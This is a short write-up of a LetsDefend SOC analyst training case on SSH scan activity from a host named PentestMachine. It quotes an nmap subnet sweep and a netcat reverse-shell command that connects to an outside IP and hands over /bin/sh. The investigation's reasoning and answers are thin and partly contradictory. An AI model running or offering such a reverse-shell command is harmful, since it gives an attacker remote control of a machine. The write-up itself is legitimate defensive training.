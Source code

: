 ```yaml
---
title: "LetsDefend SOC147 - SSH Scan Activity"
date: 2022-02-25 14:21 +0800
categories: [LetsDefend, Soc Analyst]
tags: [SOC, ssh]
author: CEngover
---
```


### Event Details

**EventID:** : 94

**Event Time:** : June 13, 2021, 4:23 p.m.

**Rule:** : SOC147 - SSH Scan Activity

**Level:** : Security Analyst

**Source Address** : 172.16.20.5

**Source Hostname** : PentestMachine

**File Name**  : nmap

**File Hash** : 3361bf0051cc657ba90b46be53fe5b36

**File Size** : 2.82 MB

**Device Action** : Allowed

Let's take a look the activity and investigate what happened.

After download the file that is given in case details, we can get `nmap` ELF file. It's executable and I thought that I had to find out what happend in background. In Endpoint Security pane, I found the host and checked the network connections. There is an nmap scanning command which is

```bash
nmap -sC -sP 172.16.20.0/24
```

Also, we've a weird network activity which is nc connection request. The command is;

```bash
nc 101.32.223.119 1234 -e /bin/sh
```

After seeing that, my answer to the first question is;

`Unknown or unexpected outgoing internet traffic`

The second is that malware quarantined/cleaned?

I invastegated the activity in LogManagement panel and saw that there are several ssh scanning activity that comes from PentestMachine host, so the answer can be `not quarantined`.

By uploading file to Virustotal, we can check that the file is malicious or not. Virustotal flagged the file as `non-malicious`.

That's all.
